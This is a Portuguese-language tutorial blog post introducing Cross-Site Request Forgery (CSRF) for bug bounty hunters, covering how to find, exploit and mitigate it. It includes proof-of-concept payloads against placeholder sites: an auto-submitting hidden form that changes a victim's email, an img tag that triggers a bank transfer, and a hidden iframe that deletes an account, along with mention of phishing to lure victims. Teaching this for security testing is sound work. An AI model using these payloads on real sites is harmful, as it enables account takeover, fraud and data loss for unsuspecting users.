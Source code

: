 ```yaml
---
title: "CSRF: Introdução"
author: "Eduardo Araujo"
categories: [Segurança]
tags: [web, js, javascript, csrf, bugbounty, lab, ngrok, html, get]
render_with_liquid: false
image:
  path:  /images/seguranca/csrf/csrf.svg
---
```


Cross-Site Request Forgery (CSRF) é uma vulnerabilidade que permite que um atacante force um usuário autenticado a executar ações indesejadas em um site sem que ele perceba. O ataque explora a confiança que o site tem na sessão autenticada do usuário (geralmente via cookies), enviando requisições maliciosas em nome dele

**Em resumo**: O atacante "engana" o navegador da vítima para que ele faça uma requisição (como mudar a senha ou transferir dinheiro) sem o consentimento dela.

## PRA QUE SERVE

CSRF é útil para atacar sistemas que:

- Não validam adequadamente a origem das requisições.

- Confiam apenas na autenticação via cookies ou tokens automáticos sem proteção adicional.

- Executam ações sensíveis (como alterar dados, fazer transações ou configurações) via métodos como GET ou POST sem verificação.

- Alteração de senha ou e-mail

- Transferência de dinheiro

- Publicação de conteúdo indesejado

- Exclusão de dados

    Tudo isso sem que a vítima perceba

**Exemplo prático:** Imagine um banco online onde o endpoint `POST /transferir` aceita uma requisição para transferir dinheiro sem verificar se a ação foi intencional. Um atacante pode explorar isso.


## QUANDO USAR

Você deve testar CSRF sempre que encontrar endpoints que realizam ações críticas (exemplo: formulários de alteração de dados, botões de exclusão, etc.). **O foco principal está em requisições que alteram o estado do sistema** **(HTTP POST, PUT, DELETE)**.

Você deve procurar por CSRF quando:

- A autenticação do usuário é baseada apenas em cookies persistentes.
- O site permite requisições de terceiros sem verificar a origem.
- O site realiza ações sensíveis (ex.: alterar senha, excluir conta, enviar mensagens) via requisições HTTP (GET ou POST).
- Não há uso de tokens CSRF (um código único por sessão para validar a requisição).
- O site não verifica cabeçalhos como Referer ou Origin.

    **Dica de Bug Bounty:** Teste endpoints críticos em plataformas como bancos, redes sociais ou e-commerce.


## COMO EXPLORAR

Para explorar CSRF, você precisa:

1. Identificar uma ação sensível no site, por exemplo: mudar email, transferir fundos;
2. Verificar se a requisição pode ser replicada sem validação de token ou origem.
3. Criar "iscas" (ex: página HTML maliciosa) que envie a requisição automaticamente quando a vítima acessá-la (é possível fazer isso através de funções JavaScript).

Passos gerais:

- Capture a requisição legítima com uma ferramenta proxy (Burp Suite, Caido, etc).
- Veja se ela funciona sem modificação em outra aba/sessão.
- Construa um PoC que envie essa requisição sem interação do usuário.

## PoC 

Vamos criar um exemplo básico. Suponha que o site `vulneravel.com` permite mudar o email da conta com esta requisição:

~~~http
POST /alterar-email HTTP/1.1
Host: vulneravel.com
Cookie: session=abc123
Content-Type: application/x-www-form-urlencoded

novo_email=atacante@malicioso.com
~~~

Se o site não usa tokens CSRF, um atacante pode criar uma página HTML maliciosa como essa:

~~~html
<html>
  <body>
    <form action="http://vulneravel.com/alterar-email" method="POST" id="csrf-form">
      <input type="hidden" name="novo_email" value="atacante@malicioso.com" />
    </form>
    <script>
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
~~~

### Como funciona

1. A vítima, autenticada em `vulneravel.com`, acessa essa página (aqui entra algo importante, muitas vezes será preciso técnicas de phishing para induzir a pessoa a acessar a página)
2. O formulário é enviado automaticamente pelo JavaScript através da função `.submit();`
3. O navegador inclui o cookie de sessão da vítima, e o email é alterado.

    Teste no Bug Bounty: Hospede esse HTML em um servidor controlado ou use ferramentas como ngrok para simular o ataque.



### Exemplos Práticos

**Transferência de Dinheiro**

Requisição legítima: `POST /transferir?valor=1000&conta=12345`. <br>
PoC: Um `<img src="http://banco.com/transferir?valor=1000&conta=12345">` em um fórum. O navegador tenta carregar a "imagem" e executa a transferência.

**Mudança de Senha**

Requisição: `POST /mudar-senha` com nova_senha=123456. <br>
PoC: Formulário oculto como o do exemplo acima.

**Exclusão de Conta**

Requisição: `GET /deletar-conta` <br>
PoC: `<iframe src="http://site.com/deletar-conta" style="display:none"></iframe>`

### Dicas para Bug Bounty

**Onde procurar:** Teste formulários, endpoints de API e ações administrativas.
**Ferramentas**: Use Burp Suite para capturar e repetir requisições; curl ou Postman para testar manualmente; ferramenta devtools do próprio navegador
**Mitigação**: Se o site usa tokens CSRF (ex: `<input type="hidden" name="csrf_token" value="xyz">`), o ataque falha. Reporte apenas se conseguir bypass.
**Impacto**: Foque em ações críticas (ex: roubo de conta, perda de dados) para maximizar a recompensa.


## COMO MITIGAR O CSRF?

- Implementar tokens CSRF únicos para cada requisição.
- Utilizar SameSite Cookies para limitar o envio de cookies apenas ao próprio site.
- Exigir reautenticação para ações críticas.
- Configurar CORS corretamente para evitar requisições indesejadas.


## CONCLUSÃO GERAL

O objetivo do ataque CSRF é enganar um usuário autenticado para que ele execute uma ação sem perceber. O atacante precisa **induzir a vítima a carregar ou interagir com uma página maliciosa**. E o phishing é um dos principais métodos para isso.

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>